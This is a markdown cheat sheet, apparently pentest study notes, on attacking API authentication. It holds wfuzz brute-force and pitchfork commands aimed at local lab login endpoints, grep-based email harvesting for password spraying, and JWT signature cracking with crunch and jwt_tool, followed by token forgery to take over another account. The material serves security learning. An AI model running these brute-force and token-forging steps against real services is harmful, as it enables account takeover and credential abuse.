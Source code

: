 # Classic Authentication Attacks

## Burp Suite Intruder
1. Capture login request and send it to Intruder.
2. Add fuzzing positions.
3. Select Cluster Bomb attack type to test all combinations.
4. Add payload sets 
5. Start attack and look for anomaly in status code, response length, response time, etc.

## Wfuzz Bruteforce/Dictionaty Attack
     wfuzz -d '{"email":"a@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/rockyou.txt -u http://127.0.0.1:8888/identity/api/auth/login --hc 405

Pitchfork with wfuzz - 
        
        wfuzz -z file,emails.txt -z file,pws.txt -X POST -d '{"email":"FUZZ","password":"FUZ2Z"}' -H "Content-Type:application/json" -u http://localhost/vapi/api2/user/login --hc 401


## Using Excessive Data Exposure to get usernames and try Password Spraying
1. If excessive data exposure is found in any responses, select "Save Response to File"
2. Try to grep strings that match email requirements. 
    
        grep -oe "[a-zA-Z0-9._]\+@[a-zA-Z]\+.[a-zA-Z]\+" response.json
3. This will remove any duplicates and save it to a file
  
       grep -oe "[a-zA-Z0-9._]\+@[a-zA-Z]\+.[a-zA-Z]\+" response.json | sort -u > unames

4. Use this username list in Intruder attack (**Cluster Bomb mode**) with a password list that matches bare minimum of password requirements. 
5. Start an attack and observe results being generated.


# API Token Attacks
## Analyse the randomness of Tokens being generated 
1. Capture a valid login request nad send it to Sequencer.
2. In Custom Location options specify the token location in request body
3. Start live capture and analyse the randomness of tokens

## JWT Analysis
**JWT.io**
1. Copy the token 
2. JWT cosists of 3 parts - header.payload.signature

        eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0ZXJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxMjI5NDg4OSwiZXhwIjoxNzEyODk5Njg5fQ.fu0ELPPtszoh4b_DsynsHhbGuVowtZtMiQjTDMP7_bfMh9avBN0Yjx4rBYGlYBV78Ze6Fc_rPkzUyyGsYzOUipd_2HNDj5Tz3SgCWnQh0fca2SkqkNXSRgu9pARvA4favPWyTtGX4alF5AgJCwoIEUtUoz86DEkOwEt7QV6wqnVS3Y-OAxkmOqVdV5yD9UEBHg1DjWrMfcB40M0MufrvVYr2RyhoypFfOG_VKD56lx8FfyuoCq52HizCZVfsBZC4HYOwA-gl3xjzpL_Fb2d1A8g2-6E2aTxcdF7wR1FDFQvRFuCs4-0LrCavysgrf--tUWdlBIQC5w_8qVNKisSABg
3. Use tool like jwt.io to have a better look at JWT.
 
**echo**
copy a single part of jwt and try to base64 decode it.
    
        echo <> | base64 -d

**jwt_tool**
1. this will give similar results to how jwt.io returns data about the jwt
    
        jwt_tool <token>
2. check different modes with -M
3. Try removing signature with -X a 
4. To try and crack the signature, 
    1. generate a wordlist with crunch
        
            crunch 5 5 -o pw.txt
    2. try cracking with Crack option in jwt tool
            
            jwt_tool <token> -C -d pw.txt
> depending on the key length we would need to generate a wordlist for cracking the signature
5. Lets say we did crack a signature and got the key.
6. Now we can try to get access to another account by replacing the email id in JWT payload section on jwt.io and adding the signature value in signature section 
7. this will result in unauthorized access to another account.
